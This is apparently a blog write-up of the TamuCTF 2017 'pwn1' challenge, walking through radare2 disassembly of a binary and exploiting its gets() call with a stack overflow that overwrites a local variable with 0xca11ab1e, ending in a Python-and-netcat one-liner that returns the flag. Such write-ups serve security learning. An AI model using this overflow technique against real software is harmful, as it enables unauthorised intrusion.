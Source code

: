 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-08-08T18:56:18+02:00
description: TamuCTF 2017 - pwn1
tags:
- CTF
- TamuCTF
- 2017
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 -A pwn1  
```
> At some point the link will be broken, if so you can use the [one](https://github.com/BlackHoods/BlackHoods.github.io/raw/master/assets/TamuCTF2017/pwn1/pwn1) from the repository.

Now that the binary is opened, lets see some stuff inside it.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483d0    1 6            sym.imp.gets
0x080483e0    1 6            sym.imp._IO_getc
0x080483f0    1 6            sym.imp.puts
0x08048400    1 6            sym.imp.__libc_start_main
0x08048410    1 6            sym.imp.setvbuf
0x08048420    1 6            sym.imp.fopen
0x08048430    1 6            sym.imp.putchar
0x08048440    1 6            sub.__gmon_start___252_440
0x08048450    1 33           entry0
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           sym.__do_global_dtors_aux
0x08048520    4 43   -> 40   sym.frame_dummy
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
0x08048630    4 93           sym.__libc_csu_init
0x08048690    1 2            sym.__libc_csu_fini
0x08048694    1 20           sym._fini
{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside of it.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> s sym.print_flag 
[0x0804854b]> pdf 
┌ (fcn) sym.print_flag 103 
│   sym.print_flag ();
│           ; var int local_dh @ ebp-0xd
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x08048606 (main)
│           0x0804854b      55             push ebp
│           0x0804854c      89e5           ebp = esp
│           0x0804854e      83ec18         esp -= 0x18
│           0x08048551      83ec0c         esp -= 0xc
│           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
│           0x08048559      e892feffff     sym.imp.puts ()
│           0x0804855e      83c410         esp += 0x10
│           0x08048561      83ec08         esp -= 8
│           0x08048564      68d3860408     push 0x80486d3
│           0x08048569      68d5860408     push str.flag.txt
│           0x0804856e      e8adfeffff     sym.imp.fopen ()
│           0x08048573      83c410         esp += 0x10
│           0x08048576      8945f4         dword [local_ch] = eax
│       ┌─< 0x08048579      eb10           goto 0x804858b
│       │      ; JMP XREF from 0x080485a0 (sym.print_flag)
│      ┌──> 0x0804857b      0fbe45f3       eax = byte [local_dh]
│      |│   0x0804857f      83ec0c         esp -= 0xc
│      |│   0x08048582      50             push eax
│      |│   0x08048583      e8a8feffff     sym.imp.putchar ()
│      |│   0x08048588      83c410         esp += 0x10
│      ↑│      ; JMP XREF from 0x08048579 (sym.print_flag)
│      |└─> 0x0804858b      83ec0c         esp -= 0xc
│      |    0x0804858e      ff75f4         push dword [local_ch]
│      |    0x08048591      e84afeffff     sym.imp._IO_getc ()
│      |    0x08048596      83c410         esp += 0x10
│      |    0x08048599      8845f3         byte [local_dh] = al
│      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff
│      └──< 0x080485a0      75d9           if (var) goto 0x804857b
│           0x080485a2      83ec0c         esp -= 0xc
│           0x080485a5      6a0a           push 0xa
│           0x080485a7      e884feffff     sym.imp.putchar ()
│           0x080485ac      83c410         esp += 0x10
│           0x080485af      90             
└           0x080485b0      c9             
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e`, we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the current function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` which belongs to `main` function. Lets see whats inside it.

{{< highlight r2 "hl_lines=30 31 32 34 35 36" >}}
[0x0804854b]> pdf @ main   
            ;-- main:
┌ (fcn) main 120
│   main ();
│           ; var int local_27h @ ebp-0x27
│           ; var int local_ch @ ebp-0xc
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x08048467 (entry0)
│           0x080485b2      8d4c2404       ecx = [local_4h]
│           0x080485b6      83e4f0         esp &= 0xfffffff0
│           0x080485b9      ff71fc         push dword [ecx - 4]
│           0x080485bc      55             push ebp
│           0x080485bd      89e5           ebp = esp
│           0x080485bf      51             push ecx
│           0x080485c0      83ec24         esp -= 0x24
│           0x080485c3      a130a00408     eax = dword obj.stdout
│           0x080485c8      6a00           push 0
│           0x080485ca      6a00           push 0
│           0x080485cc      6a02           push 2
│           0x080485ce      50             push eax
│           0x080485cf      e83cfeffff     sym.imp.setvbuf ()
│           0x080485d4      83c410         esp += 0x10
│           0x080485d7      83ec0c         esp -= 0xc
│           0x080485da      68de860408     push str.Enter_the_secret_word:
│           0x080485df      e80cfeffff     sym.imp.puts ()
│           0x080485e4      83c410         esp += 0x10
│           0x080485e7      c745f4000000.  dword [local_ch] = 0
│           0x080485ee      83ec0c         esp -= 0xc
│           0x080485f1      8d45d9         eax = [local_27h]
│           0x080485f4      50             push eax
│           0x080485f5      e8d6fdffff     sym.imp.gets ()
│           0x080485fa      83c410         esp += 0x10
│           0x080485fd      817df41eab11.  var = dword [local_ch] - 0xca11ab1e
│       ┌─< 0x08048604      7507           if (var) goto 0x804860d
│       │   0x08048606      e840ffffff     sym.print_flag ()
│      ┌──< 0x0804860b      eb10           goto 0x804861d
│      ││      ; JMP XREF from 0x08048604 (main)
│      │└─> 0x0804860d      83ec0c         esp -= 0xc
│      │    0x08048610      68f5860408     push str.That_is_not_the_secret_word_
│      │    0x08048615      e8d6fdffff     sym.imp.puts ()             ; int puts(const char *s)
│      │    0x0804861a      83c410         esp += 0x10
│      │       ; JMP XREF from 0x0804860b (main)
│      └──> 0x0804861d      b800000000     eax = 0
│           0x08048622      8b4dfc         ecx = dword [local_4h_2]
│           0x08048625      c9             
│           0x08048626      8d61fc         esp = [ecx - 4]
└           0x08048629      c3             
{{< /highlight >}}

We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function.

> So what we need to do?

As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then, if we input more characters than it is supposed to store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
